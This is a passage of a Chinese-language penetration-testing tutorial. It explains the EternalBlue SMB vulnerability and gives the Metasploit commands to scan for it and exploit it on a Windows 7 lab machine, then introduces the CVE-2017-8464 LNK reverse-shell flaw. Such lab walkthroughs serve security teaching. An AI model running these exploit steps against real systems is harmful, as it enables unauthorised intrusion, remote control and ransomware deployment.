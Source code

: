 4. 永恒之蓝色的原理

   > 永恒之蓝是在 windows 的 SMB 服务处理 SMB v1 请求时发生的漏洞，这个漏洞导致攻击者在目标系统上可以执行任意代码。
   >
   > 通过永恒之蓝漏洞会扫描开放的 445 文件共享端口和 windows 机器，无需用户任何操作，只要开机联网，就可以在电脑和服务器中植入勒索软件、远程控制木马、虚拟货币挖矿等恶意程序。

#### 环境准备

- Windows 7 系统
  - 防火墙处于关闭状态
  - SMB 协议处于开启状态（网络和共享中心-高级共享中心-启用文件和打印机共享）
- metasploit 平台

#### 利用复现

1. 启动 metasploit 终端

   `msfconsole`

2. 查询可利用模块

   `search ms17_010`

3. 使用探测模块（探测指定范围内复合 ms17-010 利用条件的主机）

   `use auxiliary/scanner/smb/smb_ms17-010`

4. 设置探测范围

   `show options`

   `set rhosts 192.168.xxx.aaa-192.168.xxx.bbb`

   `run`

5. 漏洞利用

   `search ms17_010`

   `use exploit/windows/smb/ms17_010_eternalblue`

   `show options`

   `set rhost 192.168.xxx.xxx`

   `run`

6. 后渗透

   meterpreter 模块



## CVE-2017-8464 震网三代

#### CVE-2017-8464

> 2017 年 6 月 13 日，微软官方发布编号为 CVE-2017-8464 的漏洞公告，官方介绍 Windows 系统在解析快捷方式时存在远程执行任务代码的高危漏洞，黑客可以通过 U 盘、网络共享等途径触发漏洞，完全控制用户系统。
>
> 传播载体一般是 LNK，LNK 是 Windows 系统内应用程序快捷方式文件的后缀名
>
> 被攻击机插入存在攻击 lnk 的 U 盘会反弹 shell，即使是被隔离的内网，也可以在不联网的情况下被攻击。
